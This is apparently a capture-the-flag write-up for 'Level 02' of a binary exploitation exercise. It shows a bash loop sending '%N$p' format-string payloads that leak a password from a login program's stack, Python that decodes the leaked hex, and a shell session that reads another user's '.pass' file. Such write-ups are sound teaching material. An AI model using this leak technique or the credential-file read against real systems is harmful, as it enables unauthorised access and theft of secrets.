 # Level 02

## Initial Context

- One file: `level02`

## Solving the Challenge

The program expects two inputs, an username and a password.

By looking at the decompiled code, the expected password is the next flag.
And if the password is wrong, the username is printed using `printf` which is exploitable.

We can use the `%p` specifier with a `$` to change the offset of the parameter read.

A simple script to dump the stack would be:

```bash
for x in $(seq 1 42); do
    echo -n "$x - ";
    python -c 'print "%'$x'$p "' | ./level02 | grep 'does not have access!';
done
```

The output is:

```
...
18 - (nil)  does not have access!
19 - (nil)  does not have access!
20 - 0x100000000  does not have access!
21 - (nil)  does not have access!
22 - 0x756e505234376848  does not have access!
23 - 0x45414a3561733951  does not have access!
24 - 0x377a7143574e6758  does not have access!
25 - 0x354a35686e475873  does not have access!
26 - 0x48336750664b394d  does not have access!
27 - (nil)  does not have access!
28 - 0x207024383225  does not have access!
29 - (nil)  does not have access!
...
```

We can see that offset 22 to 26 contains ASCII.
To decode it, we convert HEX to ASCII and to reverse it (since we are in the wrong endianness).

```python
def decode(input):
    return input.decode("hex")[::-1]

print(decode("756e505234376848"))
# Hh74RPnu
print(decode("45414a3561733951"))
# Q9sa5JAE
print(decode("377a7143574e6758"))
# XgNWCqz7
print(decode("354a35686e475873"))
# sXGnh5J5
print(decode("48336750664b394d"))
# M9KfPg3H
```

The password is: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

```bash
$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: x   
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, x!
$ whoami
level03
$ cat /home/users/level03/.pass
<flag>
```
